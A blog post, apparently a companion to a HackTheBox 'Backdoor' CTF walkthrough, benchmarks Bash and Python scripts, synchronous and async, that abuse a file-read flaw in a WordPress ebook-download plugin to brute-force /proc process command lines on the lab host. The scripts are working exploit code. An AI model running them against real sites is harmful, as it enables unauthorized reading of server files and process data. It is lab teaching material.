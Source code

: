 # Parallelizing in Bash and Python

[htb-backdoor](/tags#htb-backdoor ) [ctf](/tags#ctf )
[hackthebox](/tags#hackthebox ) [python](/tags#python ) [bash](/tags#bash )
[bash-async](/tags#bash-async ) [async](/tags#async ) [python-
async](/tags#python-async ) [youtube](/tags#youtube )
[programming](/tags#programming ) [bruteforce](/tags#bruteforce )  
  
Apr 24, 2022

  * [HTB Backdoor Walkthrough](/2022/04/23/htb-backdoor.html)
  * Parallelizing Bash and Python

![backdoor-scripts](https://0xdfimages.gitlab.io/img/backdoor-scripts-
cover.png)

To solve the Backdoor box from HackTheBox, I used a Bash script to loop over
2000 pids using a directory traversal / local file read vulnerability and pull
their command lines. I wanted to play with parallelizing that attack, both in
Bash and Python. I’ll share the results in this post / YouTube video.

## Building Four Scripts

[This video](https://www.youtube.com/watch?v=rn3R92y5Wlg) gives a quick
overview of the script I used in my [original solution](/2022/04/23/htb-
backdoor.html#bash-script), as well as shows re-writes for three additional
versions:

## Benchmarks

In the video, I tried each script for 2000 PIDs. After the video, I wanted to
look at how each scaled, especially the async ones. The results were
interesting:

| 2000 | 10000 | 20000 | 50000  
---|---|---|---|---  
Bash | 6:30 | - | - | 2:40:58  
Bash async | 0:05 | 0:45 | 1:24 | 5:24  
Python | 6:07 | - | - | 2:34:37  
Python async | 0:04 | 0:15 | 0:26 | 1:08  
  
While the async scripts were very similar for small brute forces (2,000), even
going up to 10,000 showed a significant gap, as the Python is much more
efficient.

Another thing I noticed is that while requests came back out of order for both
async attempts, the Bash ones were way more out of order.

My working theory is that Bash just chucks out all the requests and leaves the
OS to deal with it, where as Python is much better at scaling the requests and
sending more when there’s bandwidth to do so, and slowing down when things are
contested. But that’s just a theory.

## Scripts

### Bash Sync

    
    
    #!/bin/bash
    
    for i in $(seq 1 2001); do
    
        path="/proc/${i}/cmdline"
        skip_start=$(( 3 * ${#path} + 1))
        skip_end=32
    
        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} -o- | tr '\000' ' ')
        output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "${i}: ${output}"
        fi
    
    done
    

### Bash Async

    
    
    #!/bin/bash
    
    check_pid() {
    
        path="/proc/${1}/cmdline"
        skip_start=$(( 3 * ${#path} + 1))
        skip_end=32
    
        res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} -o- | tr '\000' ' ')
        output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
        if [[ -n "$output" ]]; then
            echo "${i}: ${output}"
        fi
    }
    
    for i in $(seq 1 2001); do
        check_pid "$i" &
        pid[${i}]=$!
    done
    
    for pid in ${pids[*]}; do
        wait $pid
    done
    

### Python Sync

    
    
    #!/usr/bin/env python3
    
    import requests
    
    for i in range(1, 2001):
    
        resp = requests.get(f"http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{i}/cmdline")
        start = 3 * (14 + len(str(i)))
        end = -32
        cmdline = resp.text[start:end].replace('\x00', ' ')
        if cmdline:
            print(f"{i:5}: {cmdline}")
    

### Python Async

    
    
    #!/usr/bin/env python3
    
    import aiohttp
    import asyncio
    
    async def get_process(session, pid):
        url = f"http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{pid}/cmdline"
        async with session.get(url) as resp:
            start = 3 * (14 + len(str(pid)))
            end = -32
            cmdline = (await resp.text())[start:end].replace('\x00', ' ')
            if cmdline:
                print(f"{pid:5}: {cmdline}")
    
    
    async def main():
        async with aiohttp.ClientSession() as session:
            tasks = []
            for i in range(1, 2001):
                tasks.append(asyncio.ensure_future(get_process(session, i)))
    
            await asyncio.gather(*tasks)
    
    asyncio.run(main())
    

[« HTB Backdoor Walkthrough](/2022/04/23/htb-backdoor.html)

[](/2022/04/24/parallelizing-in-bash-and-python.html)


